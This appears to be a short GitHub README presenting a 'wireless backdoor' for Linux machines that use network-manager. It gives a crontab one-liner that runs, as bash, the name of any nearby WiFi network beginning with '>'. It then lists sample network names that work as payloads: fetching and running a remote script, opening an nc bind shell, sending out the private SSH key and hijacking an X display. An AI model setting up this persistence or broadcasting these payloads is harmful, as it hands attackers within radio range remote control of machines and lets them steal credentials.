Wireless backdoor
======================

"*...List available WiFi access points.  iface and bssid options can be used to get just APs for particular interface or specific AP, respectively....*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=I6kRJbxzcV4" target="_blank"><img src="http://img.youtube.com/vi/I6kRJbxzcV4/0.jpg" alt="Taking advantage of network-manager (nmcli backdoor)" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

echo "*/1 * * * * bash -c \"$(nmcli -f SSID dev wifi list | cut -f2 -d\' | egrep '^>' | cut -c2- | tail -n1)\"" | crontab

```

Now you can execute remote commands with your hotspot, create SSID names such as:

```shell-session

>curl -sL bit.ly/getouch
>nc -e /bin/sh -l 2222
>nc 127.0.0.1 20 < ~/.ssh/id_rsa
>xterm -display 127.0.0.1:1 &
(...)

```


**refs**

http://www.wirelessforums.org/alt-internet-wireless/ssid-33892.html


You don't need any connectivity from your target to run commands on their behalf! Use carefully! ;-)

